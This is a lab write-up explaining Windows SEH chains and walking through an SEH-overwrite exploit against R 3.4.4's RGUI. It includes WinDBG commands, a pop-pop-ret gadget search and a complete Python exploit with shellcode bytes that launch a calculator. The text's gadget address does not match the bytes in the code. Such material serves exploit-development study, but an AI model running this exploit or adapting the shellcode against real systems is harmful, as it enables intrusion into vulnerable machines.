



# SEH Based Buffer Overflow

The purpose of this lab is to familiarize how Structured Exception Handler / SEH based buffer overflow exploits work.

## SEH 101

* Structured exception handling (SEH) is simply code in a program that is meant to handle situations when program throws an exception due to a hardware or software issue. This means catching those situations and doing something to resolve them;
* SEH code is located on the program's stack for each `try-catch` code block and each handler has its own stack frame;
* SEH is stored in stack as `EXCEPTION_REGISTRATION_RECORD` memory structure (also called SEH record) consisting of two 4 byte fields:
  * pointer to the next SEH record within the SEH chain;
  * pointer to the exception handler code - the `catch` part of the code block. This is the code that attempts to resolve the exception that the program threw;
* A program may have multiple SEHs registered that are connected by a linked list, forming a SEH chain;
  * Once a program throws an exception, the OS runs through the SEH chain and attempts to find an appropriate exception handler;
  * If no suitable handler is found, a default OS handler is used from the bottom of the SEH chain. All SEH chains always end with a default Windows SEH record. Next SEH Record field point to`FFFFFFFF`, which mean's that this is the last SEH record in the chain;
* SEH chain is stored in the Thread Environment Block (TEB) memory structure in its first member called Thread Information Block (TIB), that can be accessed via FS segment register `FS:[0x00]`;
* 64-bit applications are not vulnerable to SEH overflow as binaries are linked with safe exception handlers embedded in the PE file itself;
* 32-bit applications can be linked with `/SAFESEH` flag, which will produce a PE file with a table of safe exception handlers, assuming all modules are compatible with safe execption handling feature.

Below is a simplified diagram visualising some of the key points outlined above:

.png>)

## Exploring TEB / TIB / SEH Chains

### Memory Structures

Let's explore the key structures around SEH using WinDBG and confirm the key points mentioned in the SEH 101 section.

Thread Environment Block is a described in the OS as `_TEB` memory structure and can be inspected in WinDBG like so:&#x20;

```
dt _teb
```

.png>)

As seen from the above screenshot, the TEB's first member is `_NT_TIB` (Thread Information Block) memory structure, which can be inspected like so:

```
dt _NT_TIB
```

.png>)

As mentioned earlier, the first member inside the `_NT_TIB` structure is a pointer to `_EXCEPTION_REGISTRATION_RECORD` memory structure, which is the first SEH record / head of the SEH chain (linked list) and can be inspected like so:

```
dt _EXCEPTION_REGISTRATION_RECORD
```

.png>)

The first member of `_EXCEPTION_REGISTRATION_RECORD` is a pointer to the next SEH record and the second member is a pointer to the exception handler that is defined in the `_EXCEPTION_DISPOSITION` memory structure.

### Actual Memory Structures

We've learned about a couple of key memory structures, but now let's see how those structures look like when inspecting a real program that has some SEH records defined.&#x20;

As noted earlier, SEH are the `try` / `catch` code blocks in the program as shown below:


```c
int main(int argc, char* argv[]) 
{
    try
    {
        throw 1;
    }
    catch (int e)
    {
        
    }

    return 0;
}
```


Let's compile the above program as seh-overflow.exe and inspect it with WinDBG again, this time with a `!teb` command:

.png>)

We can see that `_TEB` is located at `00a25000` and that the `ExceptionList` / head of the SEH chain is located at `00cff2cc`. From earlier, we said that this value could also be retrieved from the FS segment register `fs:[0]`, so let's confirm that:

```
dd fs:[0] L1
```

![Head of SEH chain retrieved from the FS segment register fs:\[0\]](<../../../.gitbook/assets/image (978).png>)

Let's check the start of the SEH chain at `00cff2cc` like so:

```
dt _EXCEPTION_REGISTRATION_RECORD 00cff2cc
```


From this point the`ExceptionList` address changed from `00cff2cc` to `00cff274` due to the deugging program being restarted. This may happen multiple time throughout the labs.


.png>)

Below gif demonstrates how we can get the address of the head of the SEH chain with `!teb` command and by inspecting the `ExceptionList`. We can then walk through all the registered SEH records in the SEH chain and observe how the last SEH record indicates that the next SEH records is at `0xffffffff`: (meaning, it is actually the last record and there's no next SEH record in the chain):



Note, however, that these SEH records are the exception handlers defined in the ntdll and not in our compiled binary:

.png>)

In order to see the SEH records defined by our program, we need it to execute the `try` / `catch` code block that we have in the `main()` function. Let's see the CPU instructions at our program's entry point:

```
u $exentry
```

.png>)

At this point, I do not know what the deal is with all the jmps, but let's try setting a breakpoint at `00e1911d` (2nd `jmp` instruction), right after the first `jmp` at `00e19118` and continue with execution:

```
bp $exentry + 5
g
```

.png>)

Let's now see where the SEH head is at:

.png>)

We can now see that the start of the SEH chain has changed and is at `00bbfb2c`, so let's check the first SEH record:

```
dt _EXCEPTION_REGISTRATION_RECORD 00bbfb2c
```

.png>)

The exception handler for the first SEH record is at `0x00e220f0`. Let's see which module it belongs to:

```
u 0x00e220f0
```

.png>)

The above image confirms that `0x00e220f0` is inside our seh-overflow.exe image and we're inspecting the SEH chain from our seh-overflow.exe.

WinDBG has a command to explore SEH chains `!exchain`:

.png>)

We can also easily discover SEH records using xdbg by inspecting the SEH tab as shown below:

.png>)

Below shows how SEH records 1 to 4 (right) are organized on the program's stack (left):

.png>)

If we updated our very first diagram showing where SEH chain is located and how it looks like with actual memory addresses, it would now look like this:

.png>)

Note that the exception handler at `0x00e220f0`, when we identified it previously using WinDbg after executing the first `jmp` inside the seh-overflow.exe entry point, was the first SEH record in the chain, however, inspecting the SEH chain in xdbg, we can see that the handler `0x00e220f0` actually belongs to the second SEH record, which suggests that executing the first `jmp` was not enough to set up the full SEH chain. That, however, does not prevent us from moving this lab further into the exploitation phase, but it's just something to note if you're playing along.

## Exploiting SEH Overflow

### Intro

We're going to be exploiting the [R 3.4.4](https://www.exploit-db.com/exploits/47122) on a 32-bit Windows 10 system.


The following exploitation steps will not be detailed, since they can be found in my other notes:

* Identifying the SEH record overwrite offset - see [Finding EIP offset](stack-based-buffer-overflow.md#finding-eip-offset);
* Identifying bad characters for the shellcode - see [Finding bad characters](stack-based-buffer-overflow.md#finding-bad-characters).


### Confirming the Crash

Let's open RGUI.exe in xdbg and hit F9 as many times as we need in order to get the program's GUI to show up:

.png>)

Let's generate some garbage data that we will send to the RGUI in order to confirm we can crash it:

```python
python -c "print('A'*3000)" | clip.exe
```

.png>)

Open the RGUI configuration editor and paste the garbage data generated into the "Language for menus and messages" input box as shown and click OK and then OK once more:



At this point, looking at xdbg, we can confirm the program crashed and is vulnerable to a classic buffer overflow as we were able to overwrite the EIP register with our AAAA (0x41414141):

.png>)

More, importantly, however, we confirm that the program is also vulnerable to the SEH overflow by inspecting the SEH chain tab:

.png>)

Note from above screenshot that the first SEH record was overwritten in the following manner:

* SEH record's handler address was overwritten (red);
* Pointer to the next SEH record was also overwritten (green).

### Confirming SEH Record Offset

As the next step, we need to find an offset at which we can overwrite the SEH record.

When a user supplied input is sent to a program vulnerable with a buffer overflow vulnerability, the stack is overwritten from lower memory addresses towards higher memory addresses.

We also know that SEH records are stored on the stack and each one is an 8 byte memory structure that contains:

1. Pointer to the next SEH record;
2. Exception handler for the current SEH record.

Based on the above, in order to confirm the SEH record offset, we should generate a dummy payload that is structured like so:

.png>)

Following the [Finding EIP offset](stack-based-buffer-overflow.md#finding-eip-offset) technique, we identity that the SEH record offset into the stack is `1012`.

Based on all of the above, our payload for testing, if we can correctly overwrite the SEH record (its pointer to the next SEH record and current SEH record's handler), should now look like this:

.png>)

Let's create the above payload:

```python
python -c "print('A'*1012 + 'BBBB' + 'CCCC')" | clip.exe
```

.png>)

...and send it to the vulnerable program and see if we can overwrite the SEH record, located at `0141e768` correctly:


**Important**

Note the SEH record address `0141e768` - this is the record we will be overwriting and it will become very important when trying to understand how to force the vulnerable program to jump to our shellcode.


.png>)

From the above screenshote we can see that we can overwrite the SEH record correctly:

* 43434343 (CCCC) is the exception handler for the current SEH record;
* 42424242 (BBBB) is the address of the next SEH record;

### POP POP RET

Next, we will need to find a memory address in the vulnerable program that contains `pop pop ret` gadget. Let's see why we need this ROP gadget - hint: so that we can jump to the next SEH record in the chain, that we in fact can control, from which we can jump to the shellcode.

Useful notes about ROP gadgets:


[rop-chaining-return-oriented-programming.md](rop-chaining-return-oriented-programming.md)


Let's send `1012*A` to the vulnerable program and upon crashing it, inspect the SEH chain:

.png>)

Note the first SEH record is at address `0141E768` and its handler is at `76275680`.


Again, it is important to remember / realize that we control/can overwrite the SEH record at `0141e768`.


Let's set a breakpoint on the handler at `76275680`, continue execution until that breakpoint is hit, then inspect the SEH chain and the stack's contents:

.png>)

Once the breakpoint is hit at `76275680`, we can see that the address `0141E768`, which is the address of the next SEH record (which we control) is on the stack and it's just 3 values below the top of the stack. This means that if we could overwrite the current SEH record's `0141E768` handler, currently pointing to `76275680`, to a memory address that contains `pop pop ret` instructions, we could transfer the program's execution control to `0141E768` (a SEH record that we control) and from there, execute our shellcode. We will test this in a moment.

### Finding POP POP RET

To find memory addresses containing `pop pop ret` instructions, we can search all modules for a bytes pattern `5f 5d c3` that translates to `pop edi; pop ebp; ret`:


Any other byte pattern that translates to `pop pop ret` should work too.


.png>)

There are multiple results found as shown below. Let's chose the first one that contains executable instructions at `0x637412c8` and set a breakpoint on it by hitting F2:

.png>)

### Overwriting SEH Record and Subverting Code Execution Flow

We now know that our payload should look like this:

.png>)

So wen can start building our python exploit skeleton as shown below:


```python
f = open("payload.txt", "wb")

# Offset into the first SEH record
payload = b"A" * 1012

# Address of the next SEH record
payload += b"BOOM"

# Current SEH handler (pop pop ret)
payload += b"\xc8\x12\x94\x63"

f.write(payload)
f.close()
```


Executing `exploit.py` will create `payload.txt` with our payload, which when sent to the RGUI, will overflow the SEH record and overwrite it in the following way:

1. The next SEH record will contain the bytes `42 4F 4F 4D`, representing the string `BOOM`;
2. The current SEH handler will point to `0x637412c8` that contains `pop pop ret` instructions.

Below shows the `payload.txt` file contents:

.png>)

Let's send that payload to the RGUI:

.gif>)

Note from the above gif the key points:

* Once the program crashes with an exception and we continue running the program (F9), we hit our breakpoint at `0x637412c8` that contains the `pop pop ret` instructions;
* Once `pop pop` instructions are executed, `ret` instruction pops off the top topmost value`0141E768` from the stack, which is the SEH record we control, and jumps to it;
* Once execution jumps to `0141E768`, we see that first four instructions are actually are the bytes `42 4f 4f 4d` that represent our string `BOOM`, which means that at this point we have subverted the code execution flow and can start thinking about executing our shellcode.

### Adding Shellcode

We're now ready to start suplementing our payload with shellcode. Our payload should now look like this:

.png>)

Let's modify our exploit skeleton to include some shellcode that pops a calculator:


```python
f = open("payload.txt", "wb")

# Offset into the first SEH record
payload = b"A" * 1012

# Address of the next SEH record
payload += b"BOOM"
# payload += b"\xeb\x0B\x90\x90"

# Current SEH handler (pop pop ret)
payload += b"\xc8\x12\x94\x63"

# NOP sled for reliability
payload += b"\x90"*10

# shellcode
buf = b""
buf += b"\xba\xbf\xaf\x65\x1b\xd9\xc4\xd9\x74\x24\xf4\x5d\x31"
buf += b"\xc9\xb1\x31\x31\x55\x13\x83\xed\xfc\x03\x55\xb0\x4d"
buf += b"\x90\xe7\x26\x13\x5b\x18\xb6\x74\xd5\xfd\x87\xb4\x81"
buf += b"\x76\xb7\x04\xc1\xdb\x3b\xee\x87\xcf\xc8\x82\x0f\xff"
buf += b"\x79\x28\x76\xce\x7a\x01\x4a\x51\xf8\x58\x9f\xb1\xc1"
buf += b"\x92\xd2\xb0\x06\xce\x1f\xe0\xdf\x84\xb2\x15\x54\xd0"
buf += b"\x0e\x9d\x26\xf4\x16\x42\xfe\xf7\x37\xd5\x75\xae\x97"
buf += b"\xd7\x5a\xda\x91\xcf\xbf\xe7\x68\x7b\x0b\x93\x6a\xad"
buf += b"\x42\x5c\xc0\x90\x6b\xaf\x18\xd4\x4b\x50\x6f\x2c\xa8"
buf += b"\xed\x68\xeb\xd3\x29\xfc\xe8\x73\xb9\xa6\xd4\x82\x6e"
buf += b"\x30\x9e\x88\xdb\x36\xf8\x8c\xda\x9b\x72\xa8\x57\x1a"
buf += b"\x55\x39\x23\x39\x71\x62\xf7\x20\x20\xce\x56\x5c\x32"
buf += b"\xb1\x07\xf8\x38\x5f\x53\x71\x63\x35\xa2\x07\x19\x7b"
buf += b"\xa4\x17\x22\x2b\xcd\x26\xa9\xa4\x8a\xb6\x78\x81\x65"
buf += b"\xfd\x21\xa3\xed\x58\xb0\xf6\x73\x5b\x6e\x34\x8a\xd8"
buf += b"\x9b\xc4\x69\xc0\xe9\xc1\x36\x46\x01\xbb\x27\x23\x25"
buf += b"\x68\x47\x66\x46\xef\xdb\xea\xa7\x8a\x5b\x88\xb7"
payload += buf

f.write(payload)
f.close()
```


...and send it to RGUI. Observe the crash, continue running the program until the breakpoint at `0x637412c8` is hit and inspect the memory at `0141E768`, where our SEH record, that we've just overflowed, lives. This is where we will jump to after the `pop pop ret` instructions will complete at `0x637412c8`:

.png>)

From the above screenshot, we can derive the following key point - once we land on `0141E768` (red zone), which contains the 4 bytes representing our string `BOOM`, we need to jump over to our shellcode in the blue zone.

### Jumping Over to Shellcode

We need to replace the `BOOM` string in our exploit code (which represents the address of the next SEH record) with a simple relative short `jmp` instruction that jumps 6 bytes further into the code. The instuction can be encoded using the following bytes `eb 06`. Additionally, since the `jmp` instruction is only 2 bytes, we'd need to supplement it with 2 NOP bytes to ensure the exploit reliability. So, `BOOM` should be replaced with bytes `eb 06 90 90` like so:

```python
# payload += b"BOOM"
payload += b"\xeb\x06\x90\x90"
```

Note that even though we say we're jumping over 6 bytes into the code, but in fact, we are jumping over 8 bytes, because the `jmp` instruction itself is 2 bytes, so therefore 2+6=8. Essentially, we are jumping over the SEH record itself after which our shellcode lives.

Our payload visually should now look like this:

.png>)

### Exploit

Let's see the full updated exploit code now:


```python
f = open("payload.txt", "wb")

# Offset into the first SEH record
payload = b"A" * 1012

# Address of the next SEH record
# payload += b"BOOM"
payload += b"\xeb\x06\x90\x90"

# Current SEH handler (pop pop ret)
payload += b"\xc8\x12\x94\x63"

# NOP sled for reliability
payload += b"\x90"*10

# shellcode
buf = b""
buf += b"\xba\xbf\xaf\x65\x1b\xd9\xc4\xd9\x74\x24\xf4\x5d\x31"
buf += b"\xc9\xb1\x31\x31\x55\x13\x83\xed\xfc\x03\x55\xb0\x4d"
buf += b"\x90\xe7\x26\x13\x5b\x18\xb6\x74\xd5\xfd\x87\xb4\x81"
buf += b"\x76\xb7\x04\xc1\xdb\x3b\xee\x87\xcf\xc8\x82\x0f\xff"
buf += b"\x79\x28\x76\xce\x7a\x01\x4a\x51\xf8\x58\x9f\xb1\xc1"
buf += b"\x92\xd2\xb0\x06\xce\x1f\xe0\xdf\x84\xb2\x15\x54\xd0"
buf += b"\x0e\x9d\x26\xf4\x16\x42\xfe\xf7\x37\xd5\x75\xae\x97"
buf += b"\xd7\x5a\xda\x91\xcf\xbf\xe7\x68\x7b\x0b\x93\x6a\xad"
buf += b"\x42\x5c\xc0\x90\x6b\xaf\x18\xd4\x4b\x50\x6f\x2c\xa8"
buf += b"\xed\x68\xeb\xd3\x29\xfc\xe8\x73\xb9\xa6\xd4\x82\x6e"
buf += b"\x30\x9e\x88\xdb\x36\xf8\x8c\xda\x9b\x72\xa8\x57\x1a"
buf += b"\x55\x39\x23\x39\x71\x62\xf7\x20\x20\xce\x56\x5c\x32"
buf += b"\xb1\x07\xf8\x38\x5f\x53\x71\x63\x35\xa2\x07\x19\x7b"
buf += b"\xa4\x17\x22\x2b\xcd\x26\xa9\xa4\x8a\xb6\x78\x81\x65"
buf += b"\xfd\x21\xa3\xed\x58\xb0\xf6\x73\x5b\x6e\x34\x8a\xd8"
buf += b"\x9b\xc4\x69\xc0\xe9\xc1\x36\x46\x01\xbb\x27\x23\x25"
buf += b"\x68\x47\x66\x46\xef\xdb\xea\xa7\x8a\x5b\x88\xb7"
payload += buf

f.write(payload)
f.close()
```


Let's send the payload to RGUI and observe the stack once the payload is sent to the program:

.png>)

Below gif captures the full exploitation process:



From above screenshot, note the following key points:

* Once we're at `0141E768`, relative short `jmp + 6` jumps to the start of our `NOP` sled at `0141E770`;
* The `NOP` sled takes us to the start of our shellcode at `0141E77A`;
* Once we hit F9 to resume execution, the shellcode is successfully executed and the calc is popped.

## Summary

We can summarize that SEH overflow exploitation at a high level works as shown in the below diagram:

.png>)

1. Payload makes the program throw an exception;
2. SEH handler kicks in, which has been overwritten with a memory address in the program that contains `pop pop ret` instructions;
3. `Pop pop ret` instructions make the program jump to the next SEH record, which is overwritten with a short relative jump to the shellcode;
4. Shellcode is executed.

We can update the above diagram with memory addresses that we observed in this lab like so:

.png>)

## References






